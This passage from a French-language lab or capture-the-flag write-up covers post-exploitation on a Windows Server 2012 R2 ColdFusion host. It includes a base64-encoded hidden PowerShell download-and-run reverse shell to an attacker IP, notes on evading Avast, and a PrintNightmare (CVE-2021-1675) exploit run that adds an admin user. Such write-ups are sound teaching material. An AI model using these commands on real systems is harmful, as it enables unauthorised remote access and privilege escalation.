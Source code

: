 ```
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Je remarque aussi la présence de l'antivirus `Avast` en listant les processus (`tasklist /v`), je sais qu'il s'agit d'un processeur 64 bits (`wmic computersystem get systemtype`) et enfin via la commande `systeminfo` je peux savoir que l'OS est un *Windows Server 2012 R2*.  

Je peux obtenir un reverse shell interactif sur la machine en appelant Powershell depuis le webshell. Pour cela j'encode d'abord ma commande dans l'encodage souhaité :  

```bash
printf "iex (New-Object Net.WebClient).DownloadString('http://mon_ip/ns/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress mon_ip -Port 445" | iconv -t UTF-16LE | base64 -w0
```

Je déclenche ensuite le powershell :  

```
c:\windows\system32\cmd.exe /C powershell -NonI -W Hidden -NoP -Exec Bypass -Enc ma_commande_base64
```

Bien sûr, le privilège `SeImpersonatePrivilege` donne [des envies de patates](https://github.com/gtworek/Priv2Admin). Toutefois l'upload de ces exécutables bien connus des antivirus provoque leur suppression immédiate du serveur !  

L'exécution du binaire en mémoire via [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) semble, elle aussi, détectée. Il apparaît en fait que Powershell a le mauvais œil de l'antivirus. Ainsi si vous créez un simple *Hello world* avec *Visual Studio* juste en sélectionnant *Nouveau projet C#* et que vous le compilez puis le déposez sur la machine, il est immédiatement supprimé malgré l'absence totale de charge virale.  

Custom Nightmare
----------------

Le système semblait être aussi vulnérable à quelques vulnérabilités de DLL hijacking mais je ne disposais pas de droits pour redémarrer les services impactés.  

J'ai finalement eu recours [à un exploit en Powershell pour la vulnérabilité Print Nightmare](https://github.com/calebstewart/CVE-2021-1675).  

L'exploit a besoin d'un fichier DLL contenant la charge finale et ce dernier est bien sûr détecté par l'AV :  

```
PS C:\ColdFusion10\cfusion\bin> iex (New-Object Net.WebClient).DownloadString('http://my_ip/CVE-2021-1675.ps1'); 
PS C:\ColdFusion10\cfusion\bin> Invoke-Nightmare -DriverName "Xerox" -NewUser "devloop" -NewPassword "hack2021"
PS C:\ColdFusion10\cfusion\bin> Remove-Item : Cannot find path 'C:\Users\cfusion\AppData\Local\Temp\nightmare.dll' because it does not exist. 
At line:147 char:9 
+ Remove-Item -Force $DLL 
+ ~~~~~~~~~~~~~~~~~~~~~~~ 
 + CategoryInfo : ObjectNotFound: (C:\Users\cfusio...p\nightmare.dll:String) [Remove-Item], ItemNotFoundException 
 + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.RemoveItemCommand 
```
